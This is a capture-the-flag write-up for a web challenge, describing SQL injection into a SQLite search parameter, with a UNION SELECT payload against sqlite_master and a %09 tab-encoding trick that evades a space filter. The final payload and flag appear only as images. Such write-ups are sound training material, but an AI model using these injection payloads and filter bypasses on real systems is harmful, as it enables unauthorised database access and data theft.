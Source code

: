 # 🛠️ Constructi0nzone - Writeup

**Category:** Web  
**Points:** 50  
**Author:** daresse  
**Description:**  
> We're looking for information about the Xtreme Scavenger Squad (XSS). Check out their new site and try to uncover anything useful — ideally, a list of their members.

---

## 🧩 Initial Clues

Viewing the page source reveals developer comments:

```html
<!-- reminder : change the database scheme 
     table : users:
         col : username 
         col : password
         are bad as table/column names and should be replaced with something less guessable -->
```

This hints at a **SQL injection** vulnerability and possibly a `users` table.

---

## 🕵️ Reconnaissance

![](./images/1.png)


Triggering an error on the site with characters like `'` reveals the backend uses **SQLite**:

![](./images/3.png)

This helps us tailor our injection payloads.

---

## 🔍 Query Structure

From an error message, we learn the query format:

```sql
SELECT mission_title, mission_desc, associated_agents FROM MISSION WHERE search={input}
```

This means we can inject directly into the `search` parameter.

---

🚧 Space Filtering Bypass

The application actively blocks the use of space characters in the input, displaying the message:

```
Malicious keyword detected
```
![](./images/2.png)

To bypass this space filtering, we can replace spaces with a URL-encoded tabulation character (%09) which SQLite treats as whitespace, allowing the query to parse correctly without triggering the filter.

For example, instead of:
```sql
1 UNION SELECT name, '', '' FROM sqlite_master WHERE type='table'--
```
Use:

```sql
1%09UNION%09SELECT%09name,%09'',%09''%09FROM%09sqlite_master%09WHERE%09type='table'--
```

This way, the server sees valid whitespace, and the injection works despite the space ban.


## 💥 Exploitation

After identifying the correct table and column names, and bypassing the space filter using %09, we crafted a final payload to extract the flag from the database.

![](./images/4.png

We successfully retrieved the flag:

This confirms that the SQL injection vulnerability can be exploited to enumerate database content and access sensitive information.
---
